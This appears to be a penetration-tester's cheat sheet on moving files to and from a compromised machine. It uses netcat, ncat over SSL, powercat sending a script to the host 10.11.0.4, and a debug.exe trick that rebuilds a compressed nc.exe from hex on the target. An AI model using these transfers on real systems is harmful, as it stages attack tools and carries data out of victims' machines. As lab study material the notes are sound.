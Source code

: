 # ⭕ Other Methods

## <mark style="color:red;">netcat</mark>

#### push files from client to listener (and vice versa):

```
listener: nc -nvlp [local port] > [out file]
clinet: nc [ip] [remote port] < [in file]
```

### <mark style="color:orange;">netcat HTTP server</mark>

```
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

#### this will serve a single webpage.

```
while true; do nc -l -p 80 -q 1 < error.html; done
```

## <mark style="color:red;">Powercat File Transfers</mark>

```
nc -lnvp 443 > receiving_powercat.ps1
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## <mark style="color:red;">ncat Secure Transfer</mark>

```
ncat -nvlp port --ssl > out-file
ncat -nv target-ip port --ssl < file-to-send
```

## <mark style="color:red;">debug.exe</mark>

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

## <mark style="color:red;">LOLBines For Windows</mark>

#### check out these windows native tools/utilities for file transfer (download)

{% embed url="https://lolbas-project.github.io/#/download" %}
